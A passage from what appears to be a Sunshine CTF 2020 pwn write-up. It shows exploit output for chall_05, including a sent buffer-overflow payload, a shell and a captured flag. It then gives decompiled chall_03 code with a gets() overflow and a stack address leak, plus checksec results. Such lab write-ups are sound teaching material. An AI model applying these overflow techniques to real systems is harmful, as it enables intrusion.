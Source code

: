 ```
meraxes@pantheon:/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020$ ./chall_05.py REMOTE
[*] '/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_05'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30005: Done
b"Race, life's greatest.\n"
b"Yes I'm going to win: 0x56364e61876d\n"
Sending:  b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAZ\x87aN6V\x00\x00'
[*] Switching to interactive mode
$ cat flag.txt
sun{chapter-four-9ca97769b74345b1}
```

## chall_03
---
```c
void main(void)

{
  char local_28 [32];
  
  puts("Just in time.");
  fgets(local_28,0x13,stdin);
  vuln();
  return;
}

void vuln(void)

{
  char local_78 [112];
  
  printf("I\'ll make it: %p\n",local_78);
  gets(local_78);
  return;
}

```

`main` and `vuln` are the only functions in this binary. The print statement reveals the address of `local_78` on the stack. 

Looking at `checksec` can give some inspiration for attacks to try:

```sh
meraxes@pantheon:/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020$ checksec chall_03
[*] '/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_03'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
